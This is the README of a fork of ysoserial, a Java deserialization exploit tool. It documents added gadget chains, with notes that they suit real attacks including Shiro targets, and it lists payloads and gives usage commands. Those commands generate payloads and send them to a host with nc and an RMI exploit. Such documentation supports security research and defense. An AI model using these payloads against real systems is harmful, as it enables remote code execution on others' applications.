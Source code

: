 
# ysoserial

[![Join the chat at https://gitter.im/frohoff/ysoserial](
    https://badges.gitter.im/frohoff/ysoserial.svg)](
    https://gitter.im/frohoff/ysoserial?utm_source=badge&utm_medium=badge&utm_campaign=pr-badge&utm_content=badge)
[![Download Latest Snapshot](https://img.shields.io/badge/download-master-green.svg)](
    https://jitpack.io/com/github/frohoff/ysoserial/master-SNAPSHOT/ysoserial-master-SNAPSHOT.jar)
[![Travis Build Status](https://api.travis-ci.org/frohoff/ysoserial.svg?branch=master)](https://travis-ci.org/frohoff/ysoserial)
[![Appveyor Build status](https://ci.appveyor.com/api/projects/status/a8tbk9blgr3yut4g/branch/master?svg=true)](https://ci.appveyor.com/project/frohoff/ysoserial/branch/master)

A proof-of-concept tool for generating payloads that exploit unsafe Java object deserialization.

![logo](ysoserial.png)

## Updates By Me:

打包好的 jar 可以直接下载使用: [https://github.com/zema1/ysoserial/releases](https://github.com/zema1/ysoserial/releases)

+ 添加 CommonsCollectionsK1 (commons-Collections <= 3.2.1 && allowTemplates)
+ 添加 CommonsCollectionsK2 (commons-Collections == 4.0 && allowTemplates)
+ 添加 CommonsCollectionsK3 (commons-Collections <= 3.2.1)
+ 添加 CommonsCollectionsK4 (commons-Collections == 4.0)
+ 添加 JDK8u20 （JDK7u21 的版本延伸 Gadget)
+ 缩减了 Templates 字节码的大小，可以避免超过 tomcat header 大小等。

CommonsCollections 的这4条链可以完全代替且超越原有的 CommonsCollections 的 7 条链，他们的环境依赖非常少，
仅仅依赖 commons-collections 一个库的版本，理论上会有更好的实战兼容性，你可以完全抛弃旧的7条转而放心的使用这4条利用链。
特别的, shiro 1.2.24 默认的环境可以使用 `CommonsCollectionsK1` 和 `CommonsCollectionsK2` 两条链来打。

+ CommonsCollectionsK1:
    ```
    HashMap.readObject
        TiedMapEntry.hashCode
         TiedMapEntry.getValue
           LazyMap.decorate
             InvokerTransformer
               templates...
    ```
+ CommonsCollectionsK2:

    K1 的 4.0 版, 仅改动了 lazymap 的使用使其能在 4.0 工作。

+ CommonsCollectionsK3:

    CommonsCollections6 的优化版，大幅缩减了 payload 长度，效果完全一致。

    ```
    java.util.HashMap.readObject()
        java.util.HashMap.hash()
            TiedMapEntry.hashCode()
                TiedMapEntry.getValue()
                LazyMap.get()
                    ChainedTransformer.transform()
    ```

+ CommonsCollectionsK4

    K3 的 4.0 版， 仅改动了 lazymap 的使用使其能在 4.0 工作。

+ Jdk8u20

    手写了反序列化数据流，绕过了 Jdk7u21 后续几个版本的修复, 也是比较好用的一个 Gadget。参考: [https://github.com/pwntester/JRE8u20_RCE_Gadget](https://github.com/pwntester/JRE8u20_RCE_Gadget)，
    相比链接中的版本稳定性要好很多，而且 payload 也更小。

## 感谢

我写完后发现有位师傅之前写过一个和 K1 基本一致的链，也是英雄所见略同了。 [wh1t3p1g](https://github.com/wh1t3p1g/ysoserial)

另外，K3 参考了这位师傅的研究 https://xz.aliyun.com/t/7157

## Description

Originally released as part of AppSecCali 2015 Talk
["Marshalling Pickles: how deserializing objects will ruin your day"](
        http://frohoff.github.io/appseccali-marshalling-pickles/)
with gadget chains for Apache Commons Collections (3.x and 4.x), Spring Beans/Core (4.x), and Groovy (2.3.x).
Later updated to include additional gadget chains for
[JRE <= 1.7u21](https://gist.github.com/frohoff/24af7913611f8406eaf3) and several other libraries.

__ysoserial__ is a collection of utilities and property-oriented programming "gadget chains" discovered in common java
libraries that can, under the right conditions, exploit Java applications performing __unsafe deserialization__ of
objects. The main driver program takes a user-specified command and wraps it in the user-specified gadget chain, then
serializes these objects to stdout. When an application with the required gadgets on the classpath unsafely deserializes
this data, the chain will automatically be invoked and cause the command to be executed on the application host.

It should be noted that the vulnerability lies in the application performing unsafe deserialization and NOT in having
gadgets on the classpath.

## Disclaimer

This software has been created purely for the purposes of academic research and
for the development of effective defensive techniques, and is not intended to be
used to attack systems except where explicitly authorized. Project maintainers
are not responsible or liable for misuse of the software. Use responsibly.

## Usage

```shell
Y SO SERIAL?
Usage: java -jar ysoserial-[version]-all.jar [payload] '[command]'
  Available payload types:
Jul 07, 2020 1:48:39 PM org.reflections.Reflections scan
INFO: Reflections took 179 ms to scan 1 urls, producing 17 keys and 164 values
     Payload              Authors                                Dependencies
     -------              -------                                ------------
     BeanShell1           @pwntester, @cschneider4711            bsh:2.0b5
     C3P0                 @mbechler                              c3p0:0.9.5.2, mchange-commons-java:0.2.11
     Clojure              @JackOfMostTrades                      clojure:1.8.0
     CommonsBeanutils1    @frohoff                               commons-beanutils:1.9.2, commons-collections:3.1, commons-logging:1.2
     CommonsCollections1  @frohoff                               commons-collections<=3.2.1
     CommonsCollections2  @frohoff                               commons-collections4:4.0
     CommonsCollections3  @frohoff                               commons-collections<=3.2.1
     CommonsCollections4  @frohoff                               commons-collections4:4.0
     CommonsCollections5  @matthias_kaiser, @jasinner            commons-collections<=3.2.1
     CommonsCollections6  @matthias_kaiser                       commons-collections<=3.2.1
     CommonsCollections7  @scristalli, @hanyrax, @EdoardoVignati commons-collections<=3.2.1
     CommonsCollectionsK1 @koalr                                 commons-collections<=3.2.1
     CommonsCollectionsK2 @koalr                                 commons-collections4:4.0
     CommonsCollectionsK3 @koalr                                 commons-collections<=3.2.1
     CommonsCollectionsK4 @koalr                                 commons-collections4:4.0
     FileUpload1          @mbechler                              commons-fileupload:1.3.1, commons-io:2.4
     Groovy1              @frohoff                               groovy:2.3.9
     Hibernate1           @mbechler
     Hibernate2           @mbechler
     JBossInterceptors1   @matthias_kaiser                       javassist:3.12.1.GA, jboss-interceptor-core:2.0.0.Final, cdi-api:1.0-SP1, javax.interceptor-api:3.1, jboss-interceptor-spi:2.0.0.Final, slf4j-api:1.7.21
     JRMPClient           @mbechler
     JRMPListener         @mbechler
     JSON1                @mbechler                              json-lib:jar:jdk15:2.4, spring-aop:4.1.4.RELEASE, aopalliance:1.0, commons-logging:1.2, commons-lang:2.6, ezmorph:1.0.6, commons-beanutils:1.9.2, spring-core:4.1.4.RELEASE, commons-collections:3.1
     JavassistWeld1       @matthias_kaiser                       javassist:3.12.1.GA, weld-core:1.1.33.Final, cdi-api:1.0-SP1, javax.interceptor-api:3.1, jboss-interceptor-spi:2.0.0.Final, slf4j-api:1.7.21
     Jdk7u21              @frohoff
     Jdk8u20              @pwntester, @koalr
     Jython1              @pwntester, @cschneider4711            jython-standalone:2.5.2
     MozillaRhino1        @matthias_kaiser                       js:1.7R2
     MozillaRhino2        @_tint0                                js:1.7R2
     Myfaces1             @mbechler
     Myfaces2             @mbechler
     ROME                 @mbechler                              rome:1.0
     Spring1              @frohoff                               spring-core:4.1.4.RELEASE, spring-beans:4.1.4.RELEASE
     Spring2              @mbechler                              spring-core:4.1.4.RELEASE, spring-aop:4.1.4.RELEASE, aopalliance:1.0, commons-logging:1.2
     URLDNS               @gebl
     Vaadin1              @kai_ullrich                           vaadin-server:7.7.14, vaadin-shared:7.7.14
     Wicket1              @jacob-baines                          wicket-util:6.23.0, slf4j-api:1.6.4
```

## Examples

```shell
$ java -jar ysoserial.jar CommonsCollections1 calc.exe | xxd
0000000: aced 0005 7372 0032 7375 6e2e 7265 666c  ....sr.2sun.refl
0000010: 6563 742e 616e 6e6f 7461 7469 6f6e 2e41  ect.annotation.A
0000020: 6e6e 6f74 6174 696f 6e49 6e76 6f63 6174  nnotationInvocat
...
0000550: 7672 0012 6a61 7661 2e6c 616e 672e 4f76  vr..java.lang.Ov
0000560: 6572 7269 6465 0000 0000 0000 0000 0000  erride..........
0000570: 0078 7071 007e 003a                      .xpq.~.:

$ java -jar ysoserial.jar Groovy1 calc.exe > groovypayload.bin
$ nc 10.10.10.10 1099 < groovypayload.bin

$ java -cp ysoserial.jar ysoserial.exploit.RMIRegistryExploit myhost 1099 CommonsCollections1 calc.exe
```
